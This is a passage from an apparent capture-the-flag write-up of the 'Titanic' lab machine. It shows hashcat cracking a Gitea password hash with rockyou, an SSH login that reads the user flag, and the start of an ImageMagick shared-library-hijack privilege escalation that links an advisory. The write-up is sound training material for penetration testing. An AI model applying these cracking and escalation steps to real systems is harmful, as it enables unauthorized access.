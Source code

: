 ```jsx                                                                                   
┌──(kali㉿kali)-[~/Downloads/titanic/docker-config]
└─$ hashcat -m 10900 -a 0 gitea.hashes /usr/share/wordlists/rockyou.txt --user -w 3

hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-sandybridge-Intel(R) Core(TM) i7-8665U CPU @ 1.90GHz, 2913/5891 MB (1024 MB allocatable), 4MCU
.
.
.
.
.
.
.

sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:********<password>********
[s]tatus [p]ause [b]ypass [c]heckpoint [f]inish [q]uit => [
[s]tatus [p]ause [b]ypass [c]heckpoint [f]inish [q]uit => 

```
After successfully cracking the developer's password, we proceed to log in via SSH and we have user flag.

```jsx
┌──(kali㉿kali)-[~/Downloads/titanic/docker-config]
└─$ ssh developer@10.10.11.55     
developer@10.10.11.55's password: 

Last login: Sun Feb 16 10:55:43 2025 from 10.10.14.23
developer@titanic:~$ ls
gitea  linpeas.sh  mysql  snap  user.txt
developer@titanic:~$ cat user.txt 
************ee04a42b9bfc2ec79a1
developer@titanic:~$ 

```

### Privilege Escalation via ImageMagick Exploit

We discovered that the server is using ImageMagick, which is vulnerable to a shared library hijacking attack. The vulnerability allows us to inject a malicious `libxcb.so.1` file and execute arbitrary commands with elevated privileges.

Navigate to the target directory:
```bash
cd /opt/app/static/assets/images
```
we have a blog here which can help
[Image Magic](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8)
